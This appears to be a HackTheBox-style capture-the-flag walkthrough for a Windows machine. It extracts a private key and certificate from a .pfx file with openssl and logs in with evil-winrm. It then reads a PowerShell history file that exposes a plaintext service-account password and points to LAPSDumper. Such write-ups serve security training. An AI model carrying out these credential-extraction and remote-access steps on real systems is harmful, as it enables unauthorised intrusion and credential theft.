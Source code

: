 # Extracting the certificate and keys from a .pfx file

So what we are doing here is we are trying to import the certificate and private keys separately in an unencrypted plain text format to use it on another system. 

I cheked my notes about openssl and found this [stackoverflow](https://stackoverflow.com/questions/16397858/how-to-extract-private-key-from-pfx-file-using-openssl) wich helped me complete this operation. 

```bash
└─$ openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out key
Enter Import Password:
Enter PEM pass phrase:
Verifying - Enter PEM pass phrase:
```
-nocerts: Don't output certificates

We have a key. Now let's extract the certification.

```bash
└─$ openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out crt
Enter Import Password:
```
-in Input filename
-clcerts Only output client certificates
-out outfile Output filename

Now let's use the certificate and the key to connect with evil-winrm. My friend didn't know about evil-winrm. So if you are like him Evil-winrm is tool to connect to remote hosts using WinRM (Windows Remote Management). it's installed by default in kali. Check out more [here](https://github.com/Hackplayers/evil-winrm)

`evil-winrm -S -i 10.10.11.152 -c crt -k key`

We use -S because we are trying to connect from a secure port and we need to enable SSL 

```bash
Enter PEM pass phrase:
*Evil-WinRM* PS C:\Users\legacyy\Documents> type ../Desktop/user.txt
Enter PEM pass phrase:
1**********************8c

```

First thing we do after landing on a windows machine is to run Winpeas (Winpeas).

You can find winpeas at: [Winpeas](https://github.com/carlospolop/PEASS-ng/releases/tag/20220814 )

After browsing the output for a while. I found a history file which has a password and login.  

```bash
*Evil-WinRM* PS C:\Users\legacyy\Documents>  type C:\Users\legacyy\AppData\Roaming\Microsoft\Windows\Powershell\PSReadLine\ConsoleHost_history.txt
Enter PEM pass phrase:
whoami
ipconfig /all
netstat -ano |select-string LIST
$so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
$p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
$c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
invoke-command -computername localhost -credential $c -port 5986 -usessl -
SessionOption $so -scriptblock {whoami}
get-aduser -filter * -properties *
exit

```
Remember, in HackTheBox, Every machine's name indicate a hint about something related to that machine. In our case it's a tool called laps. So it's definiley has something to do with LAPSDumper. Here's the [tool] (https://github.com/n00py/LAPSDumper)
